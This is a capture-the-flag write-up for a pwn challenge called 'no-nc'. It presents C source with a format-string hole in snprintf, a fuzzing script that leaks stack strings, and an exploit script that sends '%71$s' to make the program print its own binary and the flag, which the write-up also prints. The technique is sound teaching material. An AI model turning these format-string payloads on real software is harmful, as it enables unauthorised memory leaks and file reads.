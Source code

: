 ```yaml
---
title: pwn - no-nc
---
```



Let's take a look at the source code of the challenge:

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>
#include <fcntl.h>

#define RAW_FLAG "GPNCTF{fake_flag}"

char *FLAG = RAW_FLAG;

int no(char c)
{
    if (c == '.')
        return 1;
    if (c == '/')
        return 1;
    if (c == 'n')
        return 1;
    if (c == 'c')
        return 1;
    return 0;
}

char filebuf[4096] = {};
int main(int argc, char **argv)
{
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
    char buf[200] = {};
    puts("Give me a file to read");
    read(STDIN_FILENO, buf, (sizeof buf) - 1);
    buf[sizeof buf - 1] = '\0';
    size_t str_len = strlen(buf);
    for (size_t i = 0; i < str_len; i++)
    {
        if (no(buf[i]))
        {
            puts("I don't like your character!");
            exit(1);
        }
    }
    char *filename = calloc(200, 1);
    snprintf(filename, (sizeof filename) - 1, buf); // Format-String Vulnerability
    puts("Will open:");
    puts(filename);
    int fd = open(filename, 0);
    if (fd < 0)
    {
        perror("open");
        exit(1);
    }
    while (1)
    {
        int count = read(fd, filebuf, (sizeof filebuf) - 1);
        if (count > 0)
        {
            write(STDOUT_FILENO, filebuf, count);
        }
        else
        {
            break;
        }
    }
}
```

We can see that the program reads a filename from the user and checks if it contains any of the characters `.`, `/`, `n`, and `c`. If it does, it exits with an error message. Otherwise, it opens the file and reads its contents. But there is a format string vulnerability in the `snprintf` function, which allows us to control the filename. So that I had write a fuzzing script to find the exactly index of the binary name `./nc` in the file system.

```python
from pwnie import *

context.log_level = 'error'
for i in range(0, 255):
    try:
        p = remote('0', 1337)

        sa(b'read\n', f'%{i}$s'.encode())
        ru(b'Will open:\n')

        data = rl()[:-1]
        print(f'[+] Data leak at index {i}: {data} ')

    except EOFError:
        close()
```

And I found that the binary name `./nc` is at index `71` and `122`. So that we can use `%s` to make a pointer to the binary name, when the binary open the file, it will open the `./nc` binary instead of the file we want to read. But note that the binary name is not null-terminated, so we need to add a null byte at the end of the string to avoid any issues.

```python collapse={1-40}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./nc', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
# init-gef-bata
b *main+513
c
'''

def start(argv=[]):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], ssl=True)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    elif args.QEMU:
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe.path] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe.path] + argv)
    else:
        return process([exe.path] + argv, aslr=True)

def debug():
    gdb.attach(p, gdbscript=gdbscript)
    pause()

# ==================== EXPLOIT ====================
p = start()

# debug()
sa(b'd\n', b'%71$s\0')

interactive()
# GPNCTF{up_and_DOWN_aL1_4rouND_60eS_th3_n_dimens1oN41_cIrcLe_wtF_15_tHiS_f1ag}
```
